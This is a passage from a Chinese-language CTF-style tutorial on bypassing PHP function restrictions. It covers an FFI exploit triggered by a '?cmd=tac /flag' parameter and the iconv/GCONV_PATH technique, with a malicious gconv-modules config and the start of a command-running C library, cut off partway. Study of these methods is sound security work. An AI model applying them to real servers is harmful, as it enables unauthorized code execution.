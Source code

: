     ![FFI扩展 3](./images/web23.png)
    (访问 exploit 文件，通过 GET 参数传递命令，如 `?cmd=tac /flag`)

### 10. iconv (GCONV_PATH 环境变量 - Linux)

*   **概述 (Overview):** PHP 的 `iconv` 系列函数（用于字符集转换）在底层通常调用 glibc 库的 `iconv` 实现。glibc 的 `iconv_open()` 函数可以通过 `GCONV_PATH` 环境变量来加载用户自定义的字符集转换模块 (`.so` 文件)。攻击者可以利用这一点，通过 `putenv()` 设置 `GCONV_PATH` 指向包含恶意配置 (`gconv-modules`) 和恶意共享库 (`.so`) 的目录，然后调用 `iconv()` 函数（或其他触发 iconv 调用的函数/过滤器）来加载并执行恶意 `.so` 文件中的代码。
*   **工作原理 (Working Principle):**
    1.  **`gconv-modules` 文件:** 这是一个配置文件，列出了字符集名称及其对应的转换模块 (`.so` 文件) 和函数。攻击者创建一个自定义的 `gconv-modules` 文件，指定一个自定义的字符集名称（如 `PWN`)，并将其映射到自己编译的恶意 `.so` 文件中的 `gconv_init` 和 `gconv` 函数。
        ```
        # gconv-modules file content (e.g., save as /tmp/gconv-modules)
        # Define a custom conversion from PWN charset to UTF-8
        # module  FROM_CHARSET  TO_CHARSET  MODULE_PATH  COST
        module  PWN//           UTF-8//     ./pwn      1 
        # (MODULE_PATH is relative to GCONV_PATH directory, here ./pwn means /tmp/pwn.so)
        ```
    2.  **恶意 `.so` 文件 (`pwn.so`):** 编写一个 C 文件 (`pwn.c`)，包含 `gconv_init()` 或 `gconv()` 函数。在这些函数（通常是 `gconv_init`，因为它在加载时执行）中加入执行系统命令的代码。
        ```c
        // pwn.c
        #include <stdio.h>
        #include <stdlib.h>

